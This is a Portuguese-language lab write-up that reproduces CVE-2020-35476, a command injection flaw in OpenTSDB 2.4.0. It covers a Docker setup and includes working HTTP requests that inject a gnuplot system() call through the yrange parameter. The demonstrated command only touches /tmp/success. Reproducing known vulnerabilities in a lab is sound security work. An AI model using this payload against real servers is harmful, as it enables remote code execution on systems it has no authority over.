

# OpenTSDB arbitrary commands injection (CVE-2020-35476)

O OpenTSDB é um banco de dados de séries temporais (TSDB) distribuído e escalável escrito sobre o HBase.

Uma vulnerabilidade de execução remota de código ocorre no OpenTSDB até a versão 2.4.0 por meio de injeção de comando no parâmetro yrange. O valor yrange é gravado em um arquivo gnuplot no diretório /tmp. Este arquivo é então executado através do script shell mygnuplot.sh. (tsd/GraphHandler.java tentou evitar injeções de comando bloqueando backticks, mas isso é insuficiente.)

Referências:

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## Ambiente vulnerável

Execute o seguinte comando para iniciar um servidor OpenTSDB 2.4.0:

```
docker-compose up -d
```

Assim que o serviço for iniciado, visite `http://your-ip:4242` para ver a interface web do OpenTSDB.

## Explorar

Você precisa saber o nome de uma métrica antes de explorar esta vulnerabilidade em `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`:


No entanto, a lista de métricas está vazia.

Felizmente, o `tsd.core.auto_create_metrics` está definido como `true` neste OpenTSDB vulnerável, então você pode criar uma métrica chamada `sys.cpu.nice` através da seguinte solicitação:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

Se pelo menos uma métrica existir e não estiver vazia, a solicitação acima não será necessária.

Envie a seguinte solicitação, onde o valor do parâmetro `m` deve conter um nome de métrica válido:

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```


`touch /tmp/success` foi executado com sucesso.


